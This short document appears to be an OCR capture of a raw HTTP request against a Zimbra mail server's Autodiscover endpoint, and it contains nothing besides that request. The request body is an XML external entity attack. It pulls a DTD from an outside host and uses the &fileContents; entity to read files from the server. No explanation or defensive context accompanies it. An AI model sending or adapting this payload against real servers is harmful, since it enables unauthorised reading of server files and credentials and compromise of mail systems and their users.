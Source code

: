     POST /Autodiscover/Autodiscover.xml HTTP/1.1  
    Host: www.0-sec.org  
    User-Agent: Mozilla/5.0 (Windows NT 10.0;) Gecko/20100101 Firefox/66.0  
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8  
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.2  
    Accept-Encoding: gzip, deflate  
    Referer: https://mail.****.com/zimbra/  
    Content-Type: application/soap+xml  
    Content-Length: 436  
    Connection: close  
    Cookie: ZM_TEST=true  
    Upgrade-Insecure-Requests: 1  

    <!DOCTYPE Autodiscover [  
            <!ENTITY % dtd SYSTEM "http://www.0-sec.org/dtd">  
            %dtd;  
            %all;  
            ]>  
    <Autodiscover xmlns="http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a">  
        <Request>  
            <EMailAddress>aaaaa</EMailAddress>  
            <AcceptableResponseSchema>&fileContents;</AcceptableResponseSchema>  
        </Request>  
    </Autodiscover>
